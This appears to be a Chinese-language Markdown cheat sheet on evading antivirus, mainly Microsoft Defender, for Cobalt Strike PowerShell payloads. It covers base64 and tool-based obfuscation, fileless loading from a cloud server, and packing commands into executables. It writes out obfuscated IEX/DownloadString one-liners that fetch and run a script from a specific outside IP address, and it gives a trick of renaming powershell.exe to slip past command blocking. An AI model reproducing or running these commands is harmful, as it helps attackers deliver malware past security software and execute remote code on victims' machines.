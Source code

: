 ## **powershell免杀**
PS：微软defender难过


这里以cs举例：
```
方式一：CS-有效载荷-Payload生成器-Powershell   
生成./payload.psl，cmd中先powershell 再./payload.psl。或右击以powershell运行。

方式二：CS-有效载荷-Payload生成器-Powershell  Command  
生成的一串cmd命令
```
## **免杀**
**对于方式二：**

混淆加密
```
将payload.psl中关键代码加密，再解密来免杀。 如base64 或 使用专门的混淆项目。
```

分离加载/无文件落地
```
将加密的 关键代码放入云服务器
运行时去下载执行
```

将变量名，函数名，全部替换。
可能过微软defender。


^
**对于方式一：**
执行命令后会被杀软发现，禁止运行。

分离加载/无文件落地
```
将 关键代码放入云服务器
运行时去下载执行
```

加入数据干扰，混淆。
```
如：
powershell -NoExit "$c1='IEX(New-Object Net.WebClient).Downlo';$c2=123("http://47.94.236.117/x.ps1")'.Replace('123','adString');IEX($c1+$c2)"


如：
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe bypass.exe
bypass.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://47.94.236.117/x.ps1'))"


如：
使用ladon图像化版，点击PowerShell，可以选择混淆编码
如输入原始命令，在Hex混淆。
```

还是命令拦截，则打包
使用ladon图像化版打包PowerShell命令打包成exe。
使用Win-PS2EXE打包成exe，特征可能更少一点。